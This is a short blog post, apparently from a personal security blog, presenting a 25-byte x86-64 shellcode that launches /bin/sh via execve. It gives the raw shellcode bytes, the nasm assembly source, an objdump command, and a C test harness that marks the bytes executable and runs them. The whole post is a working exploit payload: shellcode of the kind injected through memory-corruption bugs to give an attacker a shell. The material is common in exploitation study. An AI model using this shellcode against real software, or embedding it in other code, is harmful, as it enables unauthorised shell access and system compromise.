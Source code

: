 ```yaml
---
layout: post
title: "Minimal x86-64 shellcode for /bin/sh?"
date: 2014-06-05 01:54:22 +0000
permalink: /blog/minimal-x86-64-shellcode-for-binsh/
category: Security
tags: Exploitation,Security
---
```

I was trying to figure out the minimal shellcode necessary to launch /bin/sh from a 64-bit processor, and the smallest I could come up with is 25 bytes: `\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05`.

This was produced from the following source:

    BITS 64
    
    main:
      mov rbx, 0xFF978CD091969DD1
      neg rbx
      push rbx
      xor eax, eax
      cdq
      xor esi, esi
      push rsp
      pop rdi
      mov al, 0x3b  ; sys_execve
      syscall

Compile with nasm, examine the output with `objdump -M intel -b binary -m i386:x86-64 -D shellcode`.

Here's a program for testing:

    #include <sys/mman.h>
    #include <stdint.h>
    
    char code[] = "\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05";
    
    int main(){
      mprotect((void *)((uint64_t)code & ~4095), 4096, PROT_READ|PROT_EXEC);
      (*(void(*)()) code)();
      return 0;
    }

I'd like to find a good tool to compile my shellcode, extract as hex, build a test bin, and run it, all in one.  Should be a trivial python script, actually.
